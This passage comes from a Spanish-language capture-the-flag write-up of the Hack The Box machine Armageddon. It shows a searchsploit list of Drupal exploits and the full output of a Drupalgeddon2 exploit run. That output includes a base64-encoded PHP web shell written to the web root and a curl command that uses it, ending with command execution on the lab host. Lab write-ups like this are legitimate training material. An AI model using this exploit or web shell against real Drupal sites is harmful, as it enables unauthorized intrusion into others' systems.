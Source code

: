 ```bash
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                                                           | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                                                       | php/webapps/46459.py
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                                                        | php/webapps/44501.txt
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                                                                   | php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                                          | php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                                                            | php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                                                  | php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                                           | php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                                             | php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                                                        | php/remote/40130.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hay varios exploits con nombre _Drupalgeddon_, busco un exploit con nombre drupalgeddon en github y al ejecutarlo conseguimos ejecutar comandos:

```bash
┌─[✗]─[z3r0byte@z3r0byte]─[~/CTF/HTB/Armageddon/exploits]
└──╼ $ruby drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isnt an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo GXIEPEGU
[+] Result : GXIEPEGU
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> whoami
apache
```
